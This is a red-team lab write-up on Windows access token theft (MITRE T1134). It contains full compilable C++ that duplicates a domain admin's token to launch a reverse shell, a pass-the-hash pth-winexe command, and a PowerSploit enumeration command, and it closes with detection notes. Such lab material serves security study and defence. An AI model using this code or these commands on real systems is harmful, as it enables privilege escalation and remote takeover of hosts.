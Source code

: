 ```yaml
---
description: >-
  Defense Evasion, Privilege Escalation by stealing an re-using security access
  tokens.
---
```


# T1134: Primary Access Token Manipulation

## Context

One of the techniques of token manipulation is creating a new process with a token "stolen" from another process. This is when a token of an already existing access token present in one of the running processes on the victim host, is retrieved, duplicated and then used for creating a new process, making the new process assume the privileges of that stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process with access token you want to steal | `OpenProcess` |
| Get a handle to the access token of that process | `OpenProcesToken` |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx` |
| Create a new process with the newly aquired access token | `CreateProcessWithTokenW` |

## Weaponization

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal the token from, since it is running as a domain admin and makes it for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../../.gitbook/assets/tokens-victim-3060.png)

Note the line 16, which specifies the executable that should be launched with an impersonated token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:

![](../../.gitbook/assets/tokens-shell-c++.png)

This is the code if you want to compile and try it yourself:

{% code title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode %}

## Execution

Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:

![](../../.gitbook/assets/token-shell-impersonated.png)

The logon for OFFESNE\administrator in the above test was of logon type 2 \(interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command\). 

Another quick test that I wanted to do was a theft of an access token that was present in the system due to a network logon \(i.e psexec, winexec, pth-winexe, etc\), so I spawned a cmd shell remotely from the attacking machine to the victim machine using:

{% code title="attacker@local" %}
```text
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode %}

which created a new process on the victim system with a PID of 4780:

![](../../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens on the victim system with PowerSploit:

```csharp
Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid
```

...gives the below. Note the available token \(highlighted\) - it is the cmd.exe from above screenshot and its logon type is as expected - 3 - a network logon:

![](../../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way we did it earlier. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to `4780`:

![](../../.gitbook/assets/tokens-new-pid.png)

Running the compiled code invokes a new process with the newly stolen token:

![](../../.gitbook/assets/tokens-new-shell.png)

note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:

![](../../.gitbook/assets/token-new-logon-3%20%281%29.png)

## Observations

Imagine you were investigating the host we stole the tokens from, because it exhibited some anomalous behaviour. In this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:

![](../../.gitbook/assets/token-disasm.png)

As suggested by the above, you should think about API monitoring if you want to detect these token manipulations on endpoints, but beware - this can be quite noisy. 

Windows event logs of IDs `4672` and `4674` may be helpful for you as a defender also - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:

![](../../.gitbook/assets/token-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1134" %}

{% embed url="https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/SecGloss/p-gly\#-security-primary-token-gly" %}

{% embed url="https://technet.microsoft.com/pt-pt/library/cc783557%28v=ws.10%29.aspx?f=255&MSPPError=-2147217396" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/secauthz/access-tokens" %}

{% embed url="https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671\(v=vs.85\).aspx" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617\(v=vs.85\).aspx" %}

{% embed url="https://www.youtube.com/watch?v=Ed\_2BKn3QR8" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)

